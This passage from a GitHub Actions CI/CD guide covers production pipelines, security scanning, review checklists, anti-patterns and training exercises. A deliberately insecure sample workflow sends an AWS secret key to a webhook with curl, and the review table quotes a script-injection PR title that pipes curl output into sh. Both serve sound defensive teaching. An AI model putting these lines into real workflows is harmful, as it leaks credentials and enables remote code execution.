      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ needs.build.outputs.digest }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read
      id-token: write

  migrate-staging:
    needs: [build, deploy-dev]
    uses: ./.github/workflows/migrate.yml
    with:
      environment: staging
      migration-image: ${{ vars.ECR_MIGRATION_REPOSITORY_URI }}@${{ needs.build.outputs.migration-digest }}
    permissions:
      contents: read
      id-token: write

  deploy-staging:
    needs: [build, migrate-staging]
    uses: ./.github/workflows/deploy.yml
    with:
      environment: staging
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ needs.build.outputs.digest }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read
      id-token: write

  staging-tests:
    needs: [deploy-staging]
    uses: ./.github/workflows/smoke-tests.yml
    with:
      base-url: ${{ needs.deploy-staging.outputs.url }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read

  verify-provenance:
    needs: [build, staging-tests]
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    permissions:
      contents: read
      id-token: write
    steps:
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_ECR_READ_ROLE_ARN }}
          aws-region: ${{ vars.AWS_REGION }}
      - uses: aws-actions/amazon-ecr-login@03f1aad4c6c7ffd436567f42f9384779290529bd  # v2.1.7
      - name: Only ship artifacts built by this repository's workflows
        env:
          GH_TOKEN: ${{ github.token }}
          IMAGE: ${{ vars.ECR_REPOSITORY_URI }}
          DIGEST: ${{ needs.build.outputs.digest }}
          REPO: ${{ github.repository }}
        run: gh attestation verify "oci://${IMAGE}@${DIGEST}" --repo "$REPO"

  migrate-production:
    needs: [build, verify-provenance]
    uses: ./.github/workflows/migrate.yml
    with:
      environment: production-db          # DBA approval
      migration-image: ${{ vars.ECR_MIGRATION_REPOSITORY_URI }}@${{ needs.build.outputs.migration-digest }}
    permissions:
      contents: read
      id-token: write

  notify-start:
    needs: migrate-production
    uses: ./.github/workflows/notify.yml
    with:
      environment: production
      status: started
      version: ${{ github.sha }}
    secrets:
      SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
    permissions: {}

  deploy-production:
    needs: [build, migrate-production]
    uses: ./.github/workflows/deploy.yml
    with:
      environment: production             # release-manager approval, main-only, deploy role only
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ needs.build.outputs.digest }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read
      id-token: write

  notify-result:
    needs: deploy-production
    if: ${{ always() && needs.deploy-production.result != 'skipped' }}
    uses: ./.github/workflows/notify.yml
    with:
      environment: production
      status: ${{ needs.deploy-production.result }}
      version: ${{ github.sha }}
    secrets:
      SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
    permissions: {}
```

(Add `started` to the case statement in `notify.yml` from Example 16.)

**How to read it.**

1. `test` reuses `ci.yml` (add `workflow_call:` to its `on:` list) as a post-merge safety net; with a merge queue you may skip it.
2. `build` produces **one** digest that flows through every later stage.
3. `is-latest` avoids deploying an **older** commit after a newer one (if runs finish out of order).
4. Each environment runs **migrate then deploy**; production has two protected environments so DBAs and release managers approve their own concerns. Each protected job pauses independently.
5. Dev and staging deploys verify themselves (smoke in `deploy.yml`); `staging-tests` adds an external check. Provenance is verified before anything touches production.
6. Every deploy is serialized per environment by the job-level concurrency in `deploy.yml` and `migrate.yml`.
7. Automatic rollback sits inside `deploy.yml`; manual rollback is `rollback.yml`.
8. Failures on `main` are announced by `notify-failures.yml` (Example 18); it should list `Pipeline` and `CI`.

**Continuous deployment vs delivery.** As written, production waits for two approvals (continuous *delivery*). To do continuous *deployment*, remove reviewers from `production` (keep the branch policy and concurrency), and rely on automated gates.

### 46.6 `security.yml`

```yaml
name: Security

on:
  pull_request:
  push:
    branches: [main]
  schedule:
    - cron: '37 4 * * 1'
  workflow_dispatch:

permissions:
  contents: read

concurrency:
  group: security-${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true

jobs:
  codeql:
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    permissions:
      contents: read
      security-events: write
      actions: read
    strategy:
      fail-fast: false
      matrix:
        language: [java-kotlin, actions]
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: github/codeql-action/init@1c5b675653bb5c22dbe9b12b556ec555138e09fd  # v4.38.1
        with:
          languages: ${{ matrix.language }}
          build-mode: none
      - uses: github/codeql-action/analyze@1c5b675653bb5c22dbe9b12b556ec555138e09fd  # v4.38.1
        with:
          category: /language:${{ matrix.language }}

  dependency-review:
    if: ${{ github.event_name == 'pull_request' }}
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/dependency-review-action@a1d282b36b6f3519aa1f3fc636f609c47dddb294  # v5.0.0
        with:
          fail-on-severity: high

  pinned-actions:
    runs-on: ubuntu-24.04
    timeout-minutes: 5
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - name: Fail on unpinned third-party actions
        run: |
          set -euo pipefail
          bad=$(grep -RnE '^\s*-?\s*uses:\s+[A-Za-z0-9_.-]+/[^ @]+@' .github \
                | grep -vE '@[0-9a-f]{40}( |$)' | grep -v 'uses: \./' || true)
          if [[ -n "$bad" ]]; then echo "$bad"; exit 1; fi
```

The CodeQL `actions` language scans **your workflows** for injection and permission problems. (`java-kotlin` supports `build-mode: none`; use `autobuild`/`manual` if your project needs compilation for accurate analysis.)

### 46.7 Remaining workflows

| File | Content | Where in this guide |
|---|---|---|
| `deploy.yml` | Reusable deploy core with OIDC, Helm by digest, smoke test, auto-rollback | Example 6 |
| `migrate.yml` | Serialized Flyway Job, snapshot, approvals (use `startsWith(inputs.environment, 'production')` for the snapshot condition) | Example 22 |
| `smoke-tests.yml` | Reusable HTTP verification | Example 15 |
| `deploy-production.yml` | Manual/hotfix path with provenance check | Example 8 |
| `rollback.yml` | Redeploy a known-good digest through the same core | Example 23 |
| `release.yml` | Tag validation, ECR retag, GitHub Release | Example 9 |
| `terraform-plan.yml` / `terraform-apply.yml` | Read-only plan on PR; approved apply of saved plan | Examples 11, 12 |
| `notify.yml` / `notify-failures.yml` | Slack notifications | Examples 16, 18 |
| `dependabot.yml` | Maven, Actions, Docker, Terraform updates | Example 24 |
| `CODEOWNERS` | Security review for `.github/`, DBA for migrations | Chapter 43 |

### 46.8 Rulesets and settings (not YAML, but part of the design)

- `main`: PR required, 1+ approval, CODEOWNERS review, required check **`CI gate`** only, merge queue enabled, no force-push, linear history.
- Tag ruleset for `v*`: only release maintainers can create; no deletion or update.
- Actions policy: allow GitHub-authored and an allowlist; **require SHA pinning**; default token read-only; do not let Actions approve PRs; require approval for fork workflows.
- Workflow execution protections: disable `pull_request_target` unless a documented need exists.
- Environments as in 46.3; deployment branch policy `main`.
- Registry: ECR tag immutability on for release tags; lifecycle policy keeps every digest deployed in the last N days.

---

## Chapter 47. How to Design a GitHub Actions Workflow Like a Senior Engineer

A senior engineer does not start by typing YAML. They answer questions in a fixed order, because early answers constrain later ones (trust boundaries determine permissions, permissions determine credentials, credentials determine what may share a job).

### 47.1 The sixteen steps

| # | Step | Questions to answer | Typical output |
|---|---|---|---|
| 1 | **Define the goal** | What outcome? Who consumes it? What does "done" and "failed" mean? | One sentence: "Produce a tested, signed image digest for every merge to main." |
| 2 | **Define the trigger** | Which event, branches, tags, paths? Manual too? What must *not* trigger it? | `on:` block plus a "not triggered by" list |
| 3 | **Define trust boundaries** | Who controls the code, the text and the inputs? Fork? Bot? | Zone 1/2/3 classification (Chapter 6.3) |
| 4 | **Define permissions** | Least `GITHUB_TOKEN` scopes per job? Cloud roles? | Workflow `contents: read`; per-job elevation |
| 5 | **Define inputs** | Which inputs, of what type, validated how? | Typed inputs with regex validation |
| 6 | **Define environments** | Which targets? Reviewers? Branch policy? Variables/secrets? | Environment table |
| 7 | **Define dependencies** | Job graph; which are parallel; which gate which | `needs` graph (draw it) |
| 8 | **Define artifacts** | What is produced? Identity (digest/version)? Where stored? Retention? | Artifact/registry contract |
| 9 | **Define failure behavior** | Fail hard? Retry? Rollback? Who is told? | Failure table |
| 10 | **Define concurrency** | Cancel or serialize? Per what key? | `concurrency` groups |
| 11 | **Define observability** | Logs, summaries, metrics, deploy markers, alerts | Summary steps, notification rules |
| 12 | **Define rollback** | How do we undo? What can't be undone? | Rollback path and its test |
| 13 | **Optimize performance** | Critical path? Caches? Splitting? | Timing data before/after |
| 14 | **Review security** | Injection? Pinning? Third-party trust? | Completed review checklist (Chapter 48) |
| 15 | **Test the workflow** | Branch test via `workflow_dispatch`; failure-path tests; a staging run; `actionlint` | Evidence of failure-path behavior |
| 16 | **Document it** | What does it do? How to run, debug, roll back? Who owns it? | README section or runbook |

### 47.2 Design heuristics

- **Small workflows, clear names, one responsibility each.** Prefer several focused workflows plus reusable workflows over a 900-line file. But don't shatter one logical pipeline across a dozen tiny files with implicit dependencies.
- **Push logic into scripts** you can run locally; keep YAML as orchestration.
- **Make the safe path the easy path:** reusable workflows with secure defaults.
- **Default deny:** empty permissions, no secrets, no triggers, then add what is needed.
- **Prefer determinism to cleverness.**
- **Design for the failure path:** what does the person on call see at 3 a.m.?
- **Every workflow has an owner.**

### 47.3 The pre-merge checklist for a new workflow

```text
[ ] Trigger is correct (events, branches, paths, types)
[ ] Trust zone identified; no secrets in untrusted-code workflows
[ ] Permissions are least privilege (workflow and job level)
[ ] Secrets are scoped to steps and environments
[ ] Third-party actions are trusted and pinned to SHAs
[ ] Untrusted input reaches shell only through env, and is validated
[ ] Failure behavior is defined (rollback, alerts)
[ ] timeout-minutes set on every job
[ ] Concurrency considered (cancel vs serialize)
[ ] Artifacts: names, paths, retention, no secrets inside
[ ] Logs reviewed for leaks (including failure paths)
[ ] Runner label pinned (not latest) where determinism matters
[ ] actionlint passes; failure paths tested on a branch
[ ] README/runbook updated; CODEOWNERS covers the file
```

---

## Chapter 48. Reviewing Production Workflows

### 48.1 The review checklist

| Area | Questions |
|---|---|
| **Correctness** | Does it trigger when intended and only then? Are `if` conditions right (types, case, status functions)? Do job outputs flow correctly? Does a skipped job break `needs`? |
| **Security** | Which trust zone? Untrusted text in `run:`? `pull_request_target`/`workflow_run` misuse? Third-party actions pinned? Secrets exposure paths? |
| **Reliability** | Timeouts? Retries only on idempotent steps? Failure notifications? Flaky dependencies (network, `latest`)? |
| **Performance** | Critical path? Caches used and safe? Unneeded checkout or steps? |
| **Cost** | Duplicate triggers? Matrix size? Runner size? Cancel superseded runs? |
| **Maintainability** | Duplication? Reusable workflow candidates? Naming? Comments explaining *why*? Scripts vs inline logic? |
| **Observability** | Summary output, annotations, deploy markers, alerts? |
| **Deployment safety** | Environment protection? Concurrency lock? Deploy by digest? Smoke test? Only from protected refs? |
| **Rollback** | Previous version known? Path tested? Data implications? |
| **Secrets** | Environment-scoped? Step-scoped? OIDC instead of keys? No derived-value leaks? |
| **Permissions** | Explicit at workflow and job level? `write` scopes justified? |
| **Supply chain** | SHA pins? Dependabot for actions? Allowlist? Provenance/SBOM/signing? Transitive `uses:`? |

### 48.2 A deliberately bad workflow

```yaml
# ⚠️ INTENTIONALLY INSECURE EXAMPLE. DO NOT USE.
name: deploy
on:
  push:
  pull_request_target:
  workflow_dispatch:
    inputs:
      env:
        default: prod
permissions: write-all
env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
  AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
jobs:
  build-and-deploy:
    runs-on: ubuntu-latest
    continue-on-error: true
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - uses: some-random/setup-thing@main
      - run: |
          echo "Deploying ${{ github.event.pull_request.title }} to ${{ github.event.inputs.env }}"
          mvn package -DskipTests
          docker build -t myapp:latest .
          docker push myapp:latest
          kubectl set image deploy/myapp myapp=myapp:latest
      - run: curl -X POST -d "deployed ${{ secrets.AWS_SECRET_ACCESS_KEY }}" https://hooks.example.com
```

### 48.3 Line-by-line review

| Line(s) | Problem | Severity | Why it matters |
|---|---|---|---|
| `on: push:` (no filter) | Deploys from **every branch**, including attacker- or intern-created ones | Critical | Anyone with write access can deploy to prod from a scratch branch |
| `pull_request_target` | Privileged trigger with secrets, combined with the checkout below | Critical | Pwn request |
| `workflow_dispatch` default `prod`, untyped string | Free-text environment, default is the most dangerous choice | High | Typos and abuse; no validation |
| `permissions: write-all` | Every scope writable | High | One compromised step can rewrite the repo, releases, packages |
| Workflow-level `env` with AWS keys | Long-lived cloud credentials in every step and every action | Critical | Exfiltration; no rotation; no audit trail |
| `runs-on: ubuntu-latest` | Image drifts under you | Low | Non-determinism |
| `continue-on-error: true` (job) | Failed deploys look green | High | Silent failure |
| `actions/checkout@v4` with `ref: pull_request.head.sha` | Checks out the attacker's code in a privileged context | Critical | Code execution with secrets |
| No `persist-credentials: false` | Token left in `.git/config` | Medium | Later steps/actions can read it |
| `some-random/setup-thing@main` | Unpinned third-party action on a mutable branch | Critical | Supply-chain takeover point |
| `${{ github.event.pull_request.title }}` in `run` | **Script injection** | Critical | Title `"; curl evil | sh #` executes |
| `${{ github.event.inputs.env }}` in `run` | Injection via input | High | Same |
| `mvn package -DskipTests` | Ships untested code | High | No quality gate |
| `docker build -t myapp:latest` | Mutable tag, no registry path, no scan, no provenance | High | Unknown artifact identity |
| `docker push myapp:latest` (no login shown) | Undefined auth; implicit credential source | Medium | |
| `kubectl set image ... :latest` | Deploys a mutable tag; nodes may pull different content; no rollout wait or rollback | Critical | Unpredictable production |
| No `environment:` | No approval, no branch policy, no environment secrets | Critical | Anyone deploys |
| No `concurrency` | Two deployments can race | High | Half-applied state |
| No `timeout-minutes` | Hang costs 6 hours | Medium | Cost, lock-ups |
| Final `curl` with the secret | Secret in a URL/body to a third party; also `secrets` in `run` interpolation | Critical | Intentional exfil pattern |
| No smoke test, no rollback, no notification | Undetected failures | High | Outage surprise |
| Single job builds *and* deploys | Third-party build code has prod credentials | Critical | Blast radius |

### 48.4 The rewrite

Split into two workflows: **build** (untrusted-adjacent, no cloud credentials) and **deploy** (privileged, few steps). Sketch of the production-quality result:

```yaml
name: Build image

on:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: mvn -B -ntp verify

  image:
    needs: test
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    permissions:
      contents: read
      id-token: write
      attestations: write
    outputs:
      digest: ${{ steps.build.outputs.digest }}
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_BUILD_ROLE_ARN }}     # push-only role, trusts main branch
          aws-region: ${{ vars.AWS_REGION }}
      - uses: aws-actions/amazon-ecr-login@03f1aad4c6c7ffd436567f42f9384779290529bd  # v2.1.7
      - uses: docker/setup-buildx-action@f87e5991a6d7451dcb8d9637bfbc97413f497069  # v4.4.1
      - id: build
        uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc  # v7.4.0
        with:
          context: .
          push: true
          tags: ${{ vars.ECR_REPOSITORY_URI }}:sha-${{ github.sha }}
          provenance: mode=max
          sbom: true
          cache-from: type=gha
          cache-to: type=gha,mode=max
      - uses: actions/attest-build-provenance@4d101475d8b20a2381f78447822ac1eab6504dd8  # v4.2.2
        with:
          subject-name: ${{ vars.ECR_REPOSITORY_URI }}
          subject-digest: ${{ steps.build.outputs.digest }}
          push-to-registry: true

  deploy:
    needs: image
    uses: ./.github/workflows/deploy.yml       # Example 6: OIDC, Helm by digest, smoke test, rollback
    with:
      environment: production
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ needs.image.outputs.digest }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read
      id-token: write
```

### 48.5 Every improvement, explained

| Original flaw | Fix | Principle |
|---|---|---|
| Any-branch deploy | `push` only to `main`; environment branch policy `main` | Deploy from protected refs only |
| `pull_request_target` + PR checkout | Removed; PR CI runs on `pull_request` (`ci.yml`) | Trust separation |
| `write-all` | `contents: read`; per-job elevation | Least privilege |
| Static AWS keys | OIDC roles: push-only for build, deploy-only for production, trust bound to repo and environment | No long-lived credentials |
| Unpinned action on `@main` | SHA-pinned actions, Dependabot updates | Supply-chain integrity |
| Script injection | No untrusted text in `run`; deploy inputs validated in `deploy.yml` | Data never becomes code |
| `latest` + `kubectl set image` | Image by **digest**, Helm `--atomic`, rollout wait | Immutable artifacts |
| No tests | `mvn verify` gates the image | Quality gate |
| `continue-on-error: true` | Removed | Failures must fail |
| No environment | `production` environment with reviewers and branch policy | Deployment gates |
| No concurrency/timeouts | Job-level concurrency lock in `deploy.yml`; `timeout-minutes` everywhere | Reliability |
| Single job build+deploy | Separate jobs: build has no prod access; deploy runs few pinned steps | Blast-radius reduction |
| No provenance | Attestation; verify before production (Chapter 46) | Artifact integrity |
| No verification/rollback/notification | Smoke tests, auto-rollback, `notify.yml` | Detect and recover |
| Secret sent to a webhook | Removed; notifications use a dedicated webhook secret and never include credentials | Secret hygiene |

---

## Chapter 49. Common Anti-Patterns

| Anti-pattern | Why it is bad / what it causes | Do this instead |
|---|---|---|
| **One giant workflow** | Slow reviews, unclear ownership, hard-to-reason triggers, accidental privilege sharing | Split by responsibility and trust zone; compose with reusable workflows |
| **Too many tiny workflows** | Implicit dependencies, notification and check sprawl, duplicated triggers | Group related jobs; use `needs` inside a workflow where they belong together |
| **Excessive duplication** | Fix once, forget five times; drift | Reusable workflows, composite actions, scripts |
| **Using `latest`** (images, runners, actions) | Non-deterministic builds; unrepeatable rollbacks; silent breakage | Pin versions and digests; explicit runner labels |
| **Long-lived cloud credentials** | Theft = permanent access; no attribution | OIDC with narrow trust |
| **Excessive permissions** | Big blast radius when anything is compromised | Workflow `contents: read`; per-job elevation; read-only org default |
| **Unpinned third-party actions** | Tag/branch takeover runs attacker code with your secrets | SHA pins, allowlist, Dependabot cooldown, policy enforcement |
| **Blindly trusting PR input** | Script injection, artifact poisoning | `env` indirection, validation, treat as data |
| **`pull_request_target` misuse** | Pwn requests: secrets plus attacker code | Use `pull_request`; split privilege; environments with reviewers |
| **Secrets in logs** | Anyone with log access, plus public repos, sees them | Step-scoped secrets; no tracing; register derived values; rotate on leak |
| **Rebuilding artifacts for production** | Tested ≠ shipped | Build once, promote by digest |
| **Deploying from arbitrary branches** | Unreviewed code in prod | Protected refs; environment branch policy |
| **No rollback strategy** | Long incidents; panic engineering | Known-good digest, tested rollback workflow, backward-compatible migrations |
| **No smoke tests** | "Green" deploy that is broken | Version-aware smoke tests; automated rollback |
| **No deployment concurrency** | Racing deploys, corrupted state | Per-environment concurrency, no cancel |
| **Unnecessary self-hosted runners** | Patching, scaling and security burden; persistent compromise risk | GitHub-hosted + OIDC; if self-hosted then ephemeral/JIT and segregated |
| **Overusing `continue-on-error`** | Silent failures, unenforced gates | Only for informational steps; always surface outcome |
| **Excessive notifications** | Alert fatigue; real incidents ignored | Notify on decisions and failures on main/production only |
| **No caching** | Slow, expensive pipelines | Setup-action caches, Docker layer cache |
| **Incorrect caching** | Stale or poisoned builds; hiding bugs | Correct keys; trusted writers only; correctness independent of cache |
| **Actions artifacts as a permanent repository** | They expire; not addressable/promotable | Registries/package managers/artifact repos |
| **Workflow-level path filters on required checks** | Merge blocked by "Pending" checks | Gate job with in-workflow change detection |
| **Approving with `secrets: inherit` everywhere** | Callee gets every secret | Explicit secret pass-through |
| **YAML as the application** | Untestable logic | Scripts run locally + thin YAML |

---

## Chapter 50. Real-World Scenarios

### Scenario 1: A developer opens a pull request. What should happen?

1. `pull_request` triggers `ci.yml`, `security.yml` (and `terraform-plan.yml` if `terraform/**` changed).
2. Concurrency cancels any older run for the same PR.
3. Format, static analysis, tests (with service containers) and dependency review run in parallel with **no secrets** and a read-only token; the runner is pinned.
4. Reports upload even on failure; a summary appears on the run page.
5. `CI gate` reports the single required status.
6. After review approval and green checks, the PR enters the **merge queue**, which re-runs the gate on the combined result, then merges.
7. Nothing deploys from the PR.

### Scenario 2: The PR modifies only documentation. Should the backend suite run?

Not the full suite. Use **change detection inside `ci.yml`** (a `changes` job with path filters) so backend jobs are skipped for docs-only changes, while the always-running `CI gate` reports success. Do **not** put a workflow-level `paths-ignore` on `ci.yml` if `CI gate` is required, because then the required check stays Pending and the PR cannot merge. Run docs-specific checks (Markdown lint, link check) in a separate non-blocking or path-filtered workflow.

### Scenario 3: Two developers merge simultaneously

Without a merge queue, both PRs may be green individually but conflict semantically, leaving main red. With a **merge queue**, GitHub builds a temporary branch of main + PR A and tests it; PR B is tested on main + A + B. If A fails it is removed and B is retested without A. Post-merge, both pushes trigger `pipeline.yml`; each builds an image. `is-latest` makes the older run skip deployment when it is no longer the tip, and per-environment concurrency serializes anything that does deploy.

### Scenario 4: Two production deployments start simultaneously

Both reach the `deploy` job; they share the concurrency group `deploy-production`. The first runs; the second becomes pending (holding for the lock and, if reviewers are required, for approval). If a third arrives while the second is pending, **the second is cancelled and replaced** (default single-pending behavior). Nothing runs in parallel and no running deploy is cancelled (`cancel-in-progress: false`). If you need every deployment to run in order, use `queue: max`. Either way the deployment uses the same immutable digest logic, so re-running is safe.

### Scenario 5: The deployment succeeds but health checks fail

`helm upgrade --atomic --wait` succeeds only when pods become ready. If the *smoke test* (which checks readiness, the reported commit SHA, and a critical endpoint) fails afterward, the `Roll back if verification failed` step runs `helm rollback` to the revision captured before the upgrade, and the job fails. `notify.yml` reports **failure** and the rollback. Follow-up: the on-call reviews logs (uploaded diagnostics), and the failed digest is not promoted again. If health degrades minutes later (metrics-based), the monitoring alert triggers the manual `rollback.yml`.

### Scenario 6: A third-party GitHub Action is compromised

Protections that should already exist: (1) **SHA pinning**, so the moved tag does not affect you until *you* change the SHA (with Dependabot cooldown and review); (2) an **allowlist** limiting which actions may run; (3) **least-privilege permissions** so the stolen `GITHUB_TOKEN` is read-only; (4) **no cloud credentials in the build job** and OIDC trust limited to a deploy job in a protected environment; (5) **environment-scoped secrets** not exposed to jobs that use third-party actions; (6) egress control/monitoring; (7) provenance verification so a tampered artifact does not deploy. Response: follow Chapter 37.7 (identify exposure, rotate secrets, audit cloud logs, pin known-good, rebuild).

### Scenario 7: A developer opens a malicious PR from a fork

Under `pull_request`: the workflow file is from the PR, the token is read-only, there are no secrets, first-time contributors need maintainer approval to run, cache writes are scoped to the PR ref, and no OIDC-based cloud access is available (environment rules and trust policies don't match). The attacker can run code on a throwaway VM and waste minutes, and can try to pollute artifacts (treat artifacts from fork runs as untrusted). Under `pull_request_target` the workflow file comes from the default branch and *would* have secrets and a write token, so the design rule is: **never check out or run PR code there.** `actions/checkout` v7 blocks the checkout unless you explicitly opt out.

### Scenario 8: A database migration fails

The Kubernetes Job exits non-zero (`backoffLimit: 0`); `kubectl wait` fails; the `migrate` job fails and logs the last 200 lines; **the `deploy` job never starts** because it `needs` migrate. On PostgreSQL the failed DDL transaction rolled back, so the schema is unchanged (on MySQL, check for partial application). The running application is untouched because the old code still matches the old schema. Fix forward with a corrected migration (never edit an applied migration), re-run through the same pipeline; use the pre-migration snapshot only if data was damaged.

### Scenario 9: The Docker image build takes 15 minutes. How do you investigate?

1. Open the run and look at **step timings**: is it the build, the push, the scan, or queueing?
2. Read the build log with `--progress=plain` style output: which layers were **cache misses**? Are you copying source *before* dependency resolution (invalidating the dependency layer on every change)?
3. Check the cache action output: is `cache-from` working? Is the Actions cache being evicted (10 GB, 7 days)? Consider a registry cache.
4. Check base image pull time and network (rate limits on Docker Hub; use a mirror or ECR pull-through).
5. Check QEMU multi-platform emulation (slow): use native ARM runners per platform.
6. Check `.dockerignore` (huge context upload), test execution inside the Docker build, and unnecessary installs.
7. Fix the biggest item, re-measure. Typical wins: layer ordering, `cache-to mode=max`, native runners, splitting tests out of the image build.

### Scenario 10: CI passes but production deployment fails

Systematically compare **environment vs CI**: (1) *Artifact:* is the deployed digest identical to the tested one? (2) *Config:* environment variables, Helm values, missing secrets in the cluster; (3) *Identity:* the deploy role vs CI (OIDC `sub` mismatch, IAM permissions, Kubernetes RBAC); (4) *Network:* private endpoints, security groups, DNS; (5) *Runtime:* image pull errors (registry auth, digest missing), probes failing because a dependency (database, cache) is unreachable or schema differs; (6) *Migrations:* ordering and state; (7) *Resources:* CPU/memory limits, quota, node capacity. Tools: `kubectl describe pod`, `kubectl logs`, `helm status`, events, CloudTrail for denied calls, and the uploaded diagnostics artifact. Then improve staging so this class of failure appears there first.

---

# Part 12: Engineering Practice

## Chapter 51. A Progressive Learning Path

Do the exercises in a scratch repository (public is fine for practice, because standard runners are free and there is nothing to protect). Rule: **write the workflow, break it on purpose, fix it.**

### Level 1: Foundations (workflows, jobs, steps, events, runners)

**Learn:** workflow anatomy; events (`push`, `pull_request`, `workflow_dispatch`); jobs in parallel and with `needs`; steps (`run` vs `uses`); runner labels; logs.
**Exercises**
1. Create "hello" on `push`, then add a second job that `needs` the first.
2. Print `github.event_name`, `github.ref`, `runner.os` in each trigger type.
3. Add `workflow_dispatch` with a `choice` input and branch on it with `if`.
4. Prove that `cd` and `export` do not persist between steps; then persist a value with `$GITHUB_ENV` and `$GITHUB_OUTPUT`.
5. Break the YAML (indentation, unquoted `!`) and read the errors. Install `actionlint`.

### Level 2: CI (tests, lint, caching, artifacts, matrices)

**Learn:** `setup-*` with caching; test reports; artifacts; matrices; service containers; gate job.
**Exercises**
1. CI for a small Spring Boot (or your own) app: format, test, coverage, upload reports with `!cancelled()`.
2. Add a PostgreSQL service container and an integration test that fails without it.
3. Matrix over two Java versions with `fail-fast: false`; intentionally fail one leg.
4. Measure cold vs warm cache time; then change the lockfile and watch invalidation.
5. Add `concurrency` to cancel superseded PR runs; push twice quickly and observe.
6. Add a `CI gate` job and make it the only required check.

### Level 3: Advanced CI (reuse, composites, monorepos, expressions)

**Learn:** reusable workflows, composite actions, `fromJSON`, dynamic matrices, `case()`, change detection.
**Exercises**
1. Extract your CI into a reusable workflow in a second repository; call it by SHA. Add typed inputs and an output.
2. Create a composite action `setup-java-maven`; call it from two workflows.
3. Build a monorepo with two modules and a shared library; build only affected modules using a change-detection job and a dynamic matrix.
4. Write five tricky `if:` conditions (string vs boolean outputs, `failure()` with extra conditions, `!` quoting) and predict the results before running.

### Level 4: CD (environments, deployments, approvals, artifacts, OIDC)

**Learn:** environments, protection rules, deployment history, artifacts vs registries, OIDC.
**Exercises**
1. Create `staging` and `production` environments; add a required reviewer and branch policy to production; deploy a placeholder and approve it.
2. Publish a container to GHCR by digest; record the digest as a job output and deploy that digest to a local `kind` cluster or a free cloud tier.
3. Configure AWS/GCP/Azure OIDC with a trust policy bound to `environment:production`; prove a run on a different environment or branch is denied.
4. Add a smoke test that checks the deployed commit SHA.

### Level 5: Production (security, rollback, observability, concurrency, strategies)

**Learn:** injection, pinning, least privilege, fork safety, rollback, migrations, notifications, DORA.
**Exercises**
1. In a scratch repo, create an injectable workflow (issue title in `run`), exploit it with a harmless payload, then fix it with `env`.
2. SHA-pin all actions; add Dependabot with cooldown; add the pin-check job.
3. Add a rollback workflow; trigger a failing smoke test on purpose and watch auto-rollback.
4. Write an expand/contract migration sequence across three releases and rehearse rollback of the app between them.
5. Post-deploy: send a deployment marker to a monitoring tool; build a small dashboard of run duration and failure rate from the API.
6. Try two simultaneous deployments; observe concurrency behavior including `queue: max`.

### Level 6: Platform engineering (org-wide reuse, self-hosted runners, policy, governance)

**Learn:** org reusable workflows, runner groups, ARC, policies, rulesets, workflow execution protections, catalogs.
**Exercises**
1. Create a `platform` repository with `java-ci.yml`, `docker-build.yml`, `deploy.yml`; migrate two repositories onto it; version with tags and immutable releases.
2. Stand up ARC on a local Kubernetes (kind/minikube) with a runner scale set; observe ephemeral pod-per-job behavior.
3. Enforce SHA pinning and an action allowlist by organization policy; watch a non-compliant workflow fail.
4. Use repository rulesets to require the platform CI workflow.
5. Build a scorecard: adoption, failure rate, queue time, and cost per team.

---

## Chapter 52. Hands-On Projects

Each project lists requirements, architecture, expected behavior, tasks, security requirements, success criteria and extensions.

### Project 1: Simple CI workflow

- **Requirements:** a small backend with unit tests.
- **Architecture:** one workflow, one job.
- **Behavior:** runs on push and PR; fails on a failing test; reports coverage in the job summary.
- **Tasks:** checkout, `setup-java` with cache, `mvn verify`, summary step.
- **Security:** `permissions: contents: read`; `persist-credentials: false`; timeout.
- **Success:** a broken test turns the run red within 5 minutes; a fix turns it green.
- **Extensions:** add Spotless; upload reports on failure; add a status badge.

### Project 2: Backend CI with caching

- **Requirements:** Postgres integration tests, formatting, lint.
- **Architecture:** parallel jobs (format, lint, test) plus `CI gate`.
- **Behavior:** cache hits reduce time; PR runs cancel superseded ones.
- **Tasks:** service container, cache measurements (before/after), concurrency, gate job, required check.
- **Security:** `cache-mode: read` on PR test jobs; no secrets.
